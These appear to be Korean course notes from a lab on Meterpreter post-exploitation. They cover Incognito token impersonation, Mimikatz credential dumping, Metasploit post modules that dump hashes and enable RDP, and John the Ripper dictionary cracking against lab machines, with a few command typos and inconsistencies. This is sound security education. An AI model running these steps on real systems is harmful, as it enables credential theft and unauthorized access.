# 후속 공격(2)/Password Cracking   


# Post-Exploitation(2)

※ Review

1. Post-Exploitation

: exploit 후 세션(성공적인 exploit이나 BruteForce Attack 후의 open shell)이 열린 상태로 취하는 모든 액션을 뜻한다. 

shell은 standard shell 이거나 Meterpreter 이다.

→ 우리는 Post-Exploitation 과정을 거쳐 

- Username이나 다른 Employee data
- 패스워드 해쉬, 혹은 패스워드
- 타겟 시스템이나 네트워크에 대한 세부사항
- 민감한 데이터 (ex. 고객의 신용정보)
- 데이터베이스 커넥션

를 얻을 수 있게 된다.

우리는 타겟 머신에 지속적으로 액세스가 가능해야 하므로, Persistence 와 Removing Backdoor 과정이 중요하다!

2. Meterpreter

- 다양한 후속 공격(Post-Exploitation)을 지원. 인메모리 dll 인젝션 스테이저를 사용하는 광범위한 동적 고급 페이로드.
- 새로운 프로세스를 생성하지 않고 기존에 있는 프로세스에서 실행됨.
- 권한 상승, Pass the Hash, 이벤트 로그, Incognito, 레지스트리, Remote Desktop Control, 패킷 스니핑, 피봇팅, 파일검색 등


## 1) Meterpreter Incognito Extension

: 다른 사용자의 토큰을 가지고 와서 상대방인 것 처럼 행동하는 것. Incognito를 사용하기 위해서는 meterpreter에서 기본적으로 제공하는 모듈이 아닌 다른 모듈을 불러와야 한다.


### Incognito

- 토큰(Token) :  매번 개인정보(암호)를 제시하지 않고도 시스템이나 네트워크에 액세스 할 수 있게 해 주는 템포러리 파일. 두 가지 종류의 토큰이 있다.
    - Delegate : 원격 데스크탑으로 머신에 로그인하거나 연결하는 등의 상호적인 로그인을 위해 생성됨.
    - Impersonate : 네트워크 드라이브나 스크립트의 도메인 로그를 부여하는 등의 비상호적인 세션을 위해 생성됨.

→ 시스템이 재부팅 되어도 유지된다는 장점이 있다.



Kali에서 Windows XP를 타겟으로 한 meterpreter 세션을 연다. 

```
meterpreter> load incognito //incognito 모듈 로드
meterpreter> help incognito
```



첫번째로 해야 할 일은 이 시스템에 유용한 토큰이 있는지 확인하기 위하여해 토큰들을 나열하는 것이다. 

```
meterpreter> list_tokens
meterpreter> list_tokens -u
```

그리고 administrator을 흉내내고 현재 유저 아이디를 확인한다.

```
meterpreter> impersonate_token USER-K3AEH9K6N\\User1 //중간에 백슬래쉬를 하나 더 넣어준다!
meterpreter> getuid
```

쉘을 열어 우리가 누군지 확인한다.

```
meterpreter> shell
C:\WINDOWS\system32> whoami //이 커맨드는 작동하지 않을 것이다. 그러므로 echo를 사용한다.
C:\WINDOWS\system32> echo %USERDOMAIN%/%USERNAME%
```

우리는 user라는 것을 확인할 수 있다. 

Ctrl+C를 눌러 shell을 종료해준다.



다시 시스템 유저로 진입한 후 현재 우리가 무엇인지 확인한다.

```
meterpreter> rev2self
meterpreter> getuid //우리가 시스템 유저라는 것을 확인할 수 있다.
meterpreter> shell
C:\WINDOWS\system32> echo %USERDOMAIN%/%USERNAME%
```

## 2) Meterpreter Mimikatz Extension

: 공격자들이 주로 사용하는 몇가지 유용한 태스크들을 몇가지 묶어놓은 툴. Metasploit에는 Mimikatz가 meterpreter script로 포함되어 있다.

마찬가지로 meterpreter shell을 얻은 후에 진행한다.

Mimikatz가 제대로 동작하려면 세션은 항상 시스템 레벨 권한에서 에서 실행되고 있어야 한다!





```
meterpeter> getuid //user 확인
meterpeter> getsystem //system user가 아니라면 입력
meterpeter> load mimikatz 
meterpeter> help mimikatz //mimikatz의 built-in 커맨드 확인
```

'mimikats_command'는 Mimikatz의 모든 요소에 액세스 할 수 있게 해준다.

```
meterpeter> mimikatz_command -f abc:: //abc는 아무 의미 없는 말.
meterpeter> mimikatz_command -f samdump::
meterpeter> mimikatz_command -f samdump::hashes //해쉬 추출
meterpeter> mimikatz_command -f sekurlsa:: //패스워드 관련
meterpeter> mimikatz_command -f sekurlsa::searchPasswords
```

mimikatz_command로 우리는 mimikatz에서 사용할 수 있는 모듈들을 확인하고, 해쉬를 추출하고, 공격당한 머신에서 텍스트로 된 개인정보를 지울 수 있다.

.png)



이제 지뢰찾기 게임을 해 보자. 

```
meterpeter> mimikatz_command -f qwe::
meterpeter> mimikatz_command -f winmine::
meterpeter> mimikatz_command -f winmine::infos //지뢰가 있는 자리가 *로 나타남.
```

위 커맨드들을 차례대로 입력하면 지뢰가 있는 자리가 *기호로 나타나는 것을 확인할 수 있다.

.png)

이번에는 아예 처음부터 치트를 사용해보자.

지뢰찾기 게임을 재시작한다.

```
meterpeter> mimikatz_command -f winmine::cheat
```


지뢰가 있는 자리만 남고 게임이 클리어 되는 것을 확인할 수 있다!


## 3) Metasploit Post-Exploitation Modules

: Metasploit은 매우 광범위한 post-exploitation module 들을 가지고 있는데, 이들은 타겟을 위협하여 정보와 흔적을 수집하는 데 사용된다. 타겟 네트워크의 중추로 더욱 깊게 파고들어간다. post-exploitation modules는 크게 세 가지 종류로 나눌 수 있다.

- Escalate Group : 제한된 부분을 우회하거나 권한을 상승시키는 데 주로 사용되는 모듈들이 포함되어 있다.
    - ex) Bypassuac, Getsystem
- Gather Group : 가장 많은 모듈들이 포함되어 있다. 주로 공격당한 시스템에서 정보를 모으는 모듈들이 모여있다.
    - ex) Enum_termsrv, Hashdump, Smart_hashdump
- Manage Group : 타겟 시스템의 환경설정을 바꿔버리는 모듈들이다.
    - ex) Enable_RDP, Migrate, Smart_migrate









psexec을 이용한 XP 타겟의 meterpreter 세션에서 background한다. 모듈을 search 해준다.

```
msf> search post/windows
msf> search post/linux
msf> search post/osx
msf> search post/multi
```

각 종류별로 모듈들의 리스트를 확인할 수 있다.

post 모듈은 운영체제별로 구성되어 있다.

- post/windows 모듈은 wlan, recon, manage, gather, escalate, capture 로 이루어져있다.
- post/linux 모듈은 post/windows 모듈만큼은 아니지만 어느정도 특정한 모듈들로 구성되어 있다.

→ 이 post 모듈은 한가지 운영체제에서만 실행되는 것이 아니라 여러 운영체제에서 기능할 수 있다.


### (1) Gathering Modules

Windows 시스템에서의 Gathering Module인 'enum_termserv'는 이 머신에 원격 데스크탑 커넥션을 가진 머신들의 정보를 나열한다. 

- 만약 이 커맨드를 서버에서 사용한다면 권한을 가진 사용자들(시스템 관리자나 DB 관리자 등)을 발견할 수 있다.
- 실제로 이 모듈은 타겟 시스템의 레지스트리를 들여다보고, 'HKEY_USERS/Software/Microsoft/Terminal Server Client'의 path로부터 key와 value들을 찾아 나열한다.

우선 psexec을 이용한 Windows 8.1 대상의 meterpreter 세션을 열어준다.


시스템 정보를 확인하고, 모듈을 실행해준다.

```
meterpreter> sysinfo
meterpreter> run post/windows/gather/enum_termserv //시스템이 원격으로 Win8.1에 연결된다.
```


### (2) Managing Modules

Manage group 에 속해있는 'enable_RDP' 모듈은 원격 데스크탑 서비스(Remote Desktop Service, RDP)를 가능하게 한다. 계정을 생성하고 환경설정을 하여 이 계정이 로컬 관리자들의 하나인 것처럼 만든 후 데스크탑 사용자 그룹을 원격조정한다.

- 'fDenyTSConnections'라는 레지스트리 값을 1로 만들어낸다.

마찬가지로 meterpreter 세션에서 시작한다.



```
meterpreter> sysinfo
meterpreter> reg queryval -k "HKLM\\System\\CurrentControlSet\\Control\\Terminal Server" -v fDenyTSConnections
```

Data 값이 1로 나오는 것을 확인할 수 있다. 이는 타겟 시스템에서 원격 데스크탑 커넥션이 허용되지 않았다는 것이다.

그렇다면 Windows 8.1로 가서 '나의 컴퓨터에 원격 액세스 허용'을 설정해준다.

그리고 Kali에서도 Windows 8.1에서 원격 액세스를 허용하도록 설정해준다.



```
meterpreter> run post/windows/manage/enable_rdp
meterpreter> run queryval -k "HKLM\\System\\CurrentControlSet\\Control\\Terminal Server" -v fDenyTSConnections
```

이제는 Data 값이 0으로 나오는 것을 확인할 수 있다. 

이제는 Windows 환경을 원격 조종할 준비가 되었다. 


## 4) Password Cracking

패스워드 크래킹에는 3가지 종류가 있다.


### (1) Brute Force Attacks

- 모든 가능한 수단이 전부 시행됨
- 패스워드 길이를 아는 것이 좋다. (패스워드 길이가 길수록 올바른 패스워드를 찾는 데 걸리는 시간이 기하급수적으로 늘어나기 때문)

### (2) Dictionary Attacks

- 이미 만들어져 있는 워드리스트를 사용
- 공격툴들이 다양한 방법들을 이용 - 대문자/소문자, 숫자를 앞뒤로 붙이기 등

### (3) Rainbow Table Attacks

- 미리 컴파일된 잠재 해쉬들의 리스트
- 빠르다
- RAM용량을 많이 사용한다

### Password Hash

- Windows Hash

    UserName:UserID:LM Hash:NTML Hash:::

    ※LM Hash : 패스워드를 저장하는 데 사용되는 매우 약한 단방향 기능.

- Linux Hash

    UserName:$Algorithm$Salt$Hash:Last Changed:Min:Max:Warn:::

    /etc/shadows 파일들은 실제 패스워드를 암호화된 포맷으로 저장하는데, 해쉬나 사용자 계정의 정보를 담고 있다.
    
   

### 패스워드 크래킹 툴


**HYDRA**

- 온라인 패스워드 크래킹 툴 : 패스워드 해쉬에 직접 액세스하지 않고, 웹의 형태로 사용자이름과 패스워드를 요청한다. 매우 느리다.


**Cain & Abel**

- 패스워드 복원 툴. Microsoft OS에서 사용 가능.
- Brute Force Attack, Dictionary Attack, Rainbow Attack


**John the Ripper**

- 가장 유명한 패스워드 크래킹 툴 중 하나. Unix, Windows, OpenVMS 등에서 사용 가능.
- Brute Force Attack, Dictionary Attack, Rainbow Attack
- 수많은 패스워드 크래커들을 하나의 패키지로 합친다.
- 패스워드의 해쉬 타입을 자동으로 탐지한다.
- 세 가지 버전이 존재. (Free, Pro, Community-Enhanced)

→ 우리는 John the Ripper를 이용해 볼 것이다!


우선, 이전에 XP 에서 Hashdump를 했던 것처럼, Win8과 Linux 환경에서의 password hash를 알아내보자. 





Windows XP에서 했던 것과 마찬가지로 Windows 8.1에 psexec을 이용하여 exploit을 진행하고 meterpreter 세션으로 진입한다. 

Windows 8.1에서는 바로 hashdump 커맨드로 hash를 알아낼 수 없다. 그러므로 post 모듈을 이용한다.

```
meterpreter> run post/windows/gather/hashdump
```

그러면 Windows 8.1에서의 password hash를 확인할 수 있다.

확인한 password hash를 nano 커맨드로 Kali의 Desktop에 txt파일로 저장한다.

```
root@kali:~# nano /home/kali/Desktop/hash_8.txt
```

저장할 때는 Ctrl+X 버튼을 이용한다.






이번에는 Metasploitable2의 password hash를 확인해보자. 

우리는 Metasploitable2의 취약점으로 java_rmi가 있다는 것을 이미 알고 있으므로 이를 이용해 exploit을 수행해 meterpreter 세션을 열어준다.

Metasploitable2에서도 post를 이용한 커맨드를 이용해 hashdump를 수행해야 한다.

```
meterpreter> run post/linux/gather/hashdump
```

확인한 password hash를 마찬가지로 nano txt 파일로 저장해준다.





이제 본격적으로 John the Ripper를 이용해 Password Cracking을 시도해보자.

John the Ripper는 Metasploit에 내장되어 있어 별도의 설치를 하지 않아도 된다.

우선, john을 입력하면 John the Ripper에서 사용할 수 있는 커맨드들이 죽 나열되는 것을 확인할 수 있다.





이제 john을 이용해 오프라인 딕셔너리 공격을 수행해보자. 

```
root@kali:~# john --wordlist=[딕셔너리 파일의 path]
```

새로운 터미널 창을 열어 password.lst 파일을 찾아본다.

```
root@kali:~# find / -nmae password.lst
root@kali:~# cd /usr/share/metasploit-framework/data/wordlists //password.lst 파일의 경로로 이동
```

이제는 password list 파일의 길이를 알아보자.

```
root@kali:~/wordlists# cat password.lst |wc 
```

그러면 숫자 세 개가 나오게 된다. 첫번째는 라인의 수, 두번째는 단어의 수(라인의 수와 같다), 그리고 마지막은 문자의 수이다. 







그럼 이제 less 커맨드로 password.lst 파일을 보자. 

```
root@kali:~/wordlists# less password.lst
/[검색할 password]
```

파일 안에서 /를 이용해 검색을 할 수 있다. 본인의 password 들을 검색해본다. 만약 검색 결과가 나오지 않는다면 추가해 본다.

Ctrl+_를 이용해 제일 밑으로 라인 이동을 하고 본인이 추가하고 싶은 패스워드들을 입력해 저장한다.





이제 다시 처음 터미널 창으로 돌아와서 다음과 같이 입력한다.

```
root@kali:~# john --wordlist=/usr/share/metasploit-framework/data/wordlists/password.lst /home/kali/Desktop/[본인의 XP해쉬 파일이름].txt
//XP에 password cracking 시도
```

그러면 hash type이 'LM'이라며 오류가 뜰 것이다.

이번에는 hash format을 'LM'으로 설정해준다.

```
root@kali:~# john --wordlist=/usr/share/metasploit-framework/data/wordlists/password.lst /home/kali/Desktop/hash_XP.txt --format=NT
//format=NT를 추가한 다음 XP에 password cracking 시도
```

이제 적합한 패스워드가 있다면 매치되는 결과가 나올 것이다.

마찬가지로 Windows 8.1, Metasploitable2의 hash를 이용해 password cracking을 하면 password list에 해당하는 패스워드 결과가 나올 것이다.
